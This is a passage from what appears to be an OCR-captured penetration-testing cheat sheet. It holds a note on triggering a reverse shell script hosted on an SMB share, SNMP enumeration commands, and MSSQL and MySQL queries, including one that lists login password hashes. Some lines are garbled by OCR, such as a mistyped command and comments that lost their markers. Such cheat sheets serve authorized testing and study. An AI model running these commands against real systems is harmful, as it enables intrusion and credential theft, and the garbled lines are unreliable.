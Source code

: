 ```bash

#to trigger reverse shell script in smb
access to https://example.com/path/to/smb/share/shell.aspx
```

### SNMP (161)
```bash
# Enumerate entire MIB tree
snmpwalk -c public -v1 -t 10 $ip

# Enumerate Windows users
snmpwalk -c public -v1 $ip 1.3.6.1.4.1.77.1.2.25

# Enumerate running Windows processes
nountsnmpwalk -c public -v1 $ip 1.3.6.1.2.1.25.4.2.1.2

# Enumerate open TCP ports
snmpwalk -c public -v1 $ip 1.3.6.1.2.1.6.13.1.3

# Enumerate installed software
snmpwalk -c public -v1 $ip 1.3.6.1.2.1.25.6.3.1.2
```

### MSSQL (1433)
```bash
# MSSQL shell
mssqlclient.py -db msdb hostname/sa:password@$ip

# List databases
SELECT name FROM master.dbo.sysdatabases

# List tables
SELECT * FROM <database_name>.INFORMATION_SCHEMA.TABLES

# List users and password hashes
SELECT sp.name AS login, sp.type_desc AS login_type, sl.password_hash, sp.create_date, sp.modify_date, CASE WHEN sp.is_disabled = 1 THEN 'Disabled' ELSE 'Enabled' END AS status FROM sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id WHERE sp.type NOT IN ('G', 'R') ORDER BY sp.name
```

### MySQL (3306)
```bash
# Version detection + NSE scripts
nmap -Pn -sV -p 3306 --script="banner,(mysql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "tcp_3306_mysql_nmap.txt" $ip
MySQL shell

mysql --host=$ip -u root -p
MySQL system variables

SHOW VARIABLES;     
Show privileges granted to current user

SHOW GRANTS;
Show privileges granted to root user

# Replace 'password' field with 'authentication_string' if it does not exist
SELECT user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv FROM mysql.user WHERE user = 'root';
Exact privileges

SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;     
```